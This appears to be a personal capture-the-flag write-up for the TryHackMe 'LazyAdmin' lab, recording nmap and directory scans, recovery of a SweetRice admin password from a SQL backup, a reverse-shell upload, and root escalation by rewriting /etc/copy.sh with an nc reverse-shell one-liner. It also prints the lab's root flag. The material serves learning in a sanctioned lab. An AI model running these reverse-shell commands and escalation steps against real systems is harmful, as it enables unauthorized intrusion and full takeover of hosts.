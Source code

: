 # Nmap 7.93 scan initiated Thu Jan 12 23:21:31 2023 as: nmap -sV -A -p 80,22 -vvv -oN README.md 10.10.168.148
```
Nmap scan report for 10.10.168.148
Host is up, received echo-reply ttl 63 (0.21s latency).
Scanned at 2023-01-12 23:21:38 EST for 25s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61846227c6c32917dd27459e29cb905e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.10 - 3.13 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=1/12%OT=22%CT=%CU=30378%PV=Y%DS=2%DC=T%G=N%TM=63C0DC6B%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 21.161 days (since Thu Dec 22 19:30:34 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   214.90 ms 10.18.0.1
2   214.95 ms 10.10.168.148

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 12 23:22:03 2023 -- 1 IP address (1 host up) scanned in 33.16 seconds
```

# Directory Busting

feroxbuster -u http://10.10.31.94 -v -e

$ip/content/as
[>-------------------] - 1m     13520/330141  24m     found:33      errors:1455   
[#>------------------] - 1m      2036/30000   32/s    http://10.10.31.94/ 
[##>-----------------] - 1m      3016/30000   50/s    http://10.10.31.94/icons/ 
[#>------------------] - 59s     2890/30000   48/s    http://10.10.31.94/content/ 
[>-------------------] - 56s      970/30000   17/s    http://10.10.31.94/content/js/ 
[#>------------------] - 55s     1832/30000   32/s    http://10.10.31.94/content/inc/ 
[####################] - 15s    30000/30000   0/s     http://10.10.31.94/content/images/ => Directory listing
[>-------------------] - 51s     1301/30000   25/s    http://10.10.31.94/content/_themes/ 
[>-------------------] - 46s      627/30000   13/s    http://10.10.31.94/content/attachment/ 
[>-------------------] - 39s      565/30000   14/s    http://10.10.31.94/content/inc/lang/ 
[####################] - 28s    30000/30000   0/s     http://10.10.31.94/content/inc/font/ => Directory listing
[>-------------------] - 31s      211/30000   6/s     http://10.10.31.94/content/as/ 
[--------------------] - 0s         0/30000   0/s     http://10.10.31.94/content/_themes/default/ 
[--------------------] - 0s         0/30000   0/s     http://10.10.31.94/content/as/lib/ 


upon getting the backup sql, and inspecting i am able to get admin and password

 cat mysql_bakup_20191129023059-1.5.1.sql | grep -ir pass
mysql_bakup_20191129023059-1.5.1.sql:  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',

10.10.31.94/content
user: manager
pass: Password123

once I am able to log in to the webserver, I go to ads page and upload a reverse shell

# i used searchploit to get the sweetrice exploit


┌──(aaron㉿kali)-[~/thm/lazyadmin]
└─$ nc -l -v -p 4433
listening on [any] 4433 ...
10.10.31.94: inverse host lookup failed: Unknown host
connect to [10.18.70.19] from (UNKNOWN) [10.10.31.94] 58546
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 08:13:10 up 13 min,  0 users,  load average: 0.06, 1.94, 2.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.70.19 444 >/tmp/f" > /etc/copy.sh


└─$ nc -lnvp 4444   
listening on [any] 4444 ...
connect to [10.18.70.19] from (UNKNOWN) [10.10.129.83] 40224
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 04:02:02 up 11 min,  0 users,  load average: 0.24, 0.66, 0.69
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bin/sh -i 2>&1|nc 10.18.70.19 5554 >/tmp/f
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.70.19 5554 > /tmp/f" > /etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl

# I created another listening port and upon running I am successfully become root

┌──(aaron㉿kali)-[~/thm/lazyadmin]
└─$ nc -lnvp 5554
listening on [any] 5554 ...
connect to [10.18.70.19] from (UNKNOWN) [10.10.129.83] 35054
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /
# ls
bin
boot
cdrom

var
vmlinuz
vmlinuz.old
# cd /root
# ls
root.txt
# cat root/txt  
cat: root/txt: No such file or directory
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
# 
